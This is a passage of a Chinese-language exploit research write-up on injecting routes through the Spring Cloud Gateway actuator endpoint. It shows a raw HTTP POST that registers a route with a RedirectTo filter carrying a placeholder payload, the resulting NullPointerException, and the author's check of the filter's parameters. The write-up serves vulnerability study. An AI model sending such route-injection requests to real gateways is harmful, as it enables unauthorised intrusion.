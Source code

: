 ```http
            }
    }],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```

**同样的只有**`AddResponseHeader`**过滤器能用？**

#### 1. 变种尝试

根据前面的小结，我们随手试一个合法过滤器 `RedirectTo`

```http
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 335

{
    "id": "first_route",
    "predicates": [],
    "filters": [{
        "name": "RedirectTo",
        "args": 
            {
                "name": "Result",
                "value": "payload"
            }
    }],
    "uri": "https://www.uri-destination.org",
    "order": 0
}
```

发现回显并不成功。

![5.2.2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-6a8f5da9a6f59a25258cf4559c4d4cf2bfcf9396.png)

并且后台返回了个 `java.lang.NullPointerException: null`异常。

花了两秒钟思考，问题是出在了 arg参数解析上。为了验证我的判断去官网查看`RedirectTo`的参数配置。  
<https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/#the-redirectto-gatewayfilter-factory>

> The RedirectTo GatewayFilter factory takes two parameters, status and url.The status parameter should be a 300 series redirect HTTP code, such as 301. The url parameter should be a valid URL. This is the value of the Location header.
